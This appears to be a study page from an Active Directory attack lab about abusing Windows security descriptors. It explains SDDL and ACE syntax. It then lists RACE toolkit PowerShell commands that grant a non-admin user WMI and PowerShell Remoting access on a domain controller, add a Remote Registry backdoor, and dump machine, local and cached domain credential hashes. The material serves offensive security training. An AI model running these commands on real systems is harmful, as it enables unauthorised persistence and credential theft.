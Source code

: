 # 8.7.3 - Security Descriptors

## Security Descriptors

**Security Descriptors** define access control for securable objects in Windows (e.g., services, WMI namespaces, registry keys). The format is described using **SDDL (Security Descriptor Definition Language)**.\
SDDL strings are built from **Access Control Entries (ACEs)**, which follow this structure:

```
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
```

Example ACE for built-in administrators on WMI namespaces:

```
A;CI;CCDCLCSWRPWPRCWD;;;SID
```

This ACE grants administrators full control over WMI resources.

***

#### Using RACE Toolkit for Security Descriptor Abuse

You can abuse security descriptors to grant **non-admin users** access to protected resources. The **RACE toolkit** simplifies this process:

**Load the toolkit:**

```powershell
. C:\AD\Tools\RACE-master\RACE.ps1
```

**Modify WMI Security Descriptors**

* On the **local machine**:

```powershell
Set-RemoteWMI -SamAccountName student1 -Verbose
```

* On a **remote machine** without credentials:

```powershell
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```

* On a **remote machine with credentials**:

```powershell
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose
```

* To **remove** permissions from the remote machine:

```powershell
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Remove -Verbose
```

***

#### Persistence via PowerShell Remoting Descriptors

&#x20;_Note: PS Remoting backdoors via ACLs became unstable after August 2020 patches._

* 🔸 On the **local machine**:

```powershell
Set-RemotePSRemoting -SamAccountName student1 -Verbose
```

* 🔸 On a **remote machine**:

```powershell
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose
```

* 🔸 To **remove** remoting access:

```powershell
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove
```

***

#### Persistence via Remote Registry Descriptors

Using **RACE** or **DAMP**, you can grant registry access to users and retrieve sensitive hashes:

* 🔸 Add a backdoor via Remote Registry:

```powershell
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose
```

* 🔸 As `student1`, dump the **machine account hash**:

```powershell
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
```

* 🔸 Retrieve **local account hashes**:

```powershell
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
```

* 🔸 Retrieve **domain cached credentials**:

```powershell
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```

### Labs

* [Learning Object 13 lab](../../lab/13-lo1-3.md)
